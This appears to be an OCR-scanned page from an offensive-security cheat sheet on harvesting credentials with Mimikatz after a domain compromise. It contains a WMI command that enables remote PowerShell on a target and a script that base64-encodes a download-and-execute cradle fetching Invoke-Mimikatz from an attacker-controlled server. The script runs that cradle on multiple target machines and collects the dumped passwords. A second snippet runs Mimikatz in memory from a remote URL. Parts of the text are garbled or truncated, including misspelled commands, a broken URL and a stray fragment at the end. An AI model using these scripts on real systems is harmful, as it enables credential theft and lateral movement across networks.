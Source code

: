 FRSV2010..are the targeted computer names which you can get by running nslookup on the corresponding IP Save it as Mimikatz.ps1 and run it. This script depends and relies on winrm (5985) to be enabled on the target you are running the script from, you can enable it with the following command:

```
Wmic /user:admin /password:password /node:[ip] process call create "powersell enable-PSRemoting -force"
```

**Mimikatz Execution on Multiple Domain Joined Machines**

Powershell script that Downloads Mimikatz and executes it on multiple defined machines using WMI. **Use it if the above method failed** Scenario 1: You have just compromised a domain-joined machine / domain-controller / regular work station and want to harvest the passwords / hashes of other domain-joined machines then you can use the below script to launch it from the host you have just compromised. Scenario 2: You have compromised a non domain-joined machine and want to download and execute mimikatz as stealthy as possible then you can use the script below and stop at the green highlight.

```powershell
$command = '$browser = New-ObjectSystem.Net.WebClient; 
IEX($browser.DownloadString("http:// [your-server-ip]:[port]/Invoke-Mimikatz.ps1"));
$machine_name = (get-netadapter | getnetipaddress | ? addressfamily -eq "IPv4").ipaddress;invoke-mimikatz | out-file c:\windows\temp\$machine_name".txt"'
$bytes =[System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$PC_IP = @("[target-ip-1]", "[target-ip-2]")
ForEach ($X in $PC_IP) {
$proc = invoke-wmimethod -ComputerName $X
win32_process -name create -argumentlist ("powershell -encodedcommand $encodedCommand")
$proc_id = $proc.processId
do {(Write-Host "[*] Waiting for mimi to finish on $X"),
(Start-Sleep -Seconds 2)} until ((Get-WMIobject -Class Win32_process -Filter "ProcessId=$proc_id" -ComputerName $X | where {$_.ProcessId -eq $proc_id}).ProcessID -eq $null)
move-item -path "\\$X\C$\windows\temp\$X.txt" -Destination C:\users\Administrator\desktop\ -force write-host "[+] Got file for $X" -foregroundcolor "green"
}
```

write-host $encodedCommand \[include this command if you are running this script for a single host and stop here].

**Execute Mimikatz in Memory**

Powershell script to download mimikatz and execute it in memory only:

```powershell
$browser = New-Object System.Net.WebClient
$browser.Proxy.Credentials =
[System.Net.CredentialCache]::DefaultNetworkCredentials
IEX($browser.DownloadString("https://raw.githubusercontent.Mimikatz.ps1"))
invoke-Mimikatz
```

#### Crashing The System


[Text.Encoding]: :ASCII)) .ReadToEnd() ;"